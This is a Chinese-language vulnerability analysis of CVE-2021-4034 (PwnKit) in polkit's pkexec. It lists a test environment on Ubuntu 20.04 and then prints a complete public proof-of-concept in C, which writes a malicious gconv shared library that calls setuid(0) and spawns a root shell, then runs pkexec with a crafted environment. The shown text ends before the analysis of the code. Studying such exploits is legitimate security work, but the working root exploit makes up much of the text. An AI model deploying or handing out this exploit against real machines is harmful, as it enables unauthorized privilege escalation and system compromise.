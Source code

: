 ### 漏洞环境搭建
环境没有特殊要求，主流 Linux 发行版都可以。

本次测试的环境：
```bash
➜ uname -a
Linux ubuntu 5.11.0-46-generic #51~20.04.1-Ubuntu SMP Fri Jan 7 06:51:40 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
~ 
➜ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.3 LTS
Release:	20.04
Codename:	focal
➜ gcc --version
gcc (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
Copyright (C) 2019 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
➜ pkexec --version
pkexec version 0.105
```

## 0x02 漏洞分析
对该漏洞的分析将结合已知的 [POC](https://github.com/arthepsy/CVE-2021-4034) 和 Qualys 的[报告](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)进行。

### 分析 POC 
先来分析 POC：
```c
  1 #include <stdio.h>
  2 #include <stdlib.h>
  3 #include <unistd.h>
  4 
  5 char *shell =
  6         "#include <stdio.h>\n"
  7         "#include <stdlib.h>\n"
  8         "#include <unistd.h>\n\n"
  9         "void gconv() {}\n"
 10         "void gconv_init() {\n"
 11         "       setuid(0); setgid(0);\n"
 12         "       seteuid(0); setegid(0);\n"
 13         "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
 14         "       exit(0);\n"
 15         "}";
 16         
 17 int main(int argc, char *argv[]) {
 18         FILE *fp;
 19         system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
 20         system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
 21         fp = fopen("pwnkit/pwnkit.c", "w");
 22         fprintf(fp, "%s", shell);
 23         fclose(fp); 
 24         system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
 25         char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
 26         execve("/usr/bin/pkexec", (char*[]){NULL}, env);
 27 } 
```